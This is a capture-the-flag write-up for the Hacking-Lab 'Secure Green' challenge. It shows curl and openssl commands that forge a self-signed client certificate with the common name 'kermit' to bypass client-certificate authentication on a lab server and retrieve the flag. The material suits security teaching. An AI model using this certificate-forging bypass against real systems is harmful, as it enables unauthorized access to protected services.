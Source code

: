 # Secure Green

## Introduction
```
Evil Corp. runs a secret service accessible to authorized personnel only.

According to an inside source, their system administrator is actually a green plush frog with a side gig at Sesame Street... I wonder if he can really configure a server securely.
```

## Goal
```
The goal of this challenge is to gain access to Evil Corps' secret service which is accessible only to authorized personnel.
```

## Task
```
Your task is to find vulnerabilities in the system and exploit them to gain access to the secret service. You must apply your knowledge of web security, network security, and system administration to complete this challenge successfully.
```

## Flag Format
`UUID`

## Writeup

Starting off I send a request to the website. <br/>
```sh
kali@kali curl --insecure https://12e4700b-6ccb-488d-8341-5f47054109f7.rdocker.vuln.land/
The provided CN "" is unknown, Hacking-Lab-Cert has been notified!
```

From the description we can estimate what we need to pass to gain access. <br/>
The first thing which came to my mind is “kermit”. <br/>

Trying to pass `kermit` as a header. <br/>
```sh
kali@kali curl --insecure -H "CN: kermit" https://12e4700b-6ccb-488d-8341-5f47054109f7.rdocker.vuln.land/
The provided CN "" is unknown, Hacking-Lab-CERT has been notified!
```

Trying around some more I didn't find anything of interest. <br/>
One thing I want to try out is making a client ssl certificate using `kermit` as `Common Name`. <br/>
```sh
kali@kali openssl genpkey -algorithm RSA -out client-key.pem
[REDACTED]
kali@kali openssl req -new -key client-key.pem -out client-csr.pem -subj "/CN=kermit"
kali@kali openssl x509 -req -in client-csr.pem -signkey client-key.pem -out client-cert.pem
Certificate request self-signature ok
subject=CN = kermit
```

Making a request using the forged certificate. <br/>
```sh 
kali@kali curl --insecure --cert client-cert.pem --key client-key.pem https://12e4700b-6ccb-488d-8341-5f47054109f7.rdocker.vuln.land/
Great success! Here is your flag: c5fe02e4-dc3c-4bb5-a192-a07b43a451e8
```

Seems like this concludes the challenge.
